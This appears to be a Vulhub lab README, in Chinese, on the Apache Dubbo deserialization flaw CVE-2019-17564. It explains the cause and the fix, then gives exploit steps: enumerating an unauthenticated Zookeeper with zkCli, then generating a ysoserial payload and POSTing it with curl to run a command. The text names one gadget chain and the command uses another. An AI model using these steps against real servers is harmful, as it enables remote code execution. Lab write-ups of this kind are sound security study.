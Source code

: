 # Aapche Dubbo Java反序列化漏洞（CVE-2019-17564）

Apache Dubbo是一款高性能、轻量级的开源Java RPC服务框架。Dubbo可以使用不同协议通信，当使用http协议时，Apache Dubbo直接使用了Spring框架的`org.springframework.remoting.httpinvoker.HttpInvokerServiceExporter`类做远程调用，而这个过程会读取POST请求的Body并进行反序列化，最终导致漏洞。

在Spring文档中，对`HttpInvokerServiceExporter`有如下描述，并不建议使用：

> WARNING: Be aware of vulnerabilities due to unsafe Java deserialization: Manipulated input streams could lead to unwanted code execution on the server during the deserialization step. As a consequence, do not expose HTTP invoker endpoints to untrusted clients but rather just between your own services. In general, we strongly recommend any other message format (e.g. JSON) instead.

这个漏洞影响Apache Dubbo 2.7.4及以前版本，2.7.5后Dubbo使用`com.googlecode.jsonrpc4j.JsonRpcServer`替换了`HttpInvokerServiceExporter`。

参考链接：

- https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/remoting/httpinvoker/HttpInvokerServiceExporter.html
- https://www.anquanke.com/post/id/198747
- https://paper.seebug.org/1128/

## 漏洞环境

执行如下命令启动一个Apache Dubbo 2.7.3 Provider：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`，服务器默认会返回500错误。

## 漏洞复现

利用该漏洞需要先知道目标RPC接口名，而Dubbo所有的RPC配置储存在registry中，通常使用Zookeeper作为registry。如果能刚好找到目标的Zookeeper未授权访问漏洞，那么就可以在其中找到接口的名称与地址。

Vulhub对外开放了8080端口和2181端口，其中2181即为Zookeeper的端口，我们本地下载[Zookeeper](https://zookeeper.apache.org/)，使用其中自带的**zkCli**即可连接到这台Zookeeper服务器：

```
./zkCli -server target-ip:2181
```

连接后进入一个交互式控制台，使用`ls`即可列出其中所有节点，包括Dubbo相关的配置：

![](1.png)

获取到RPC接口名为`org.vulhub.api.CalcService`。直接用ysoserial生成CommonsCollections6的Payload作为POST Body发送到`http://your-ip:8080/org.vulhub.api.CalcService`即可触发反序列化漏洞：

```
java -jar ysoserial.jar CommonsBeanutils6 "touch /tmp/success" > 1.poc
curl -XPOST --data-binary @1.poc http://your-ip:8080/org.vulhub.api.CalcService
```

![](2.png)

进入容器，可见`touch /tmp/success`已成功执行。

![](3.png)

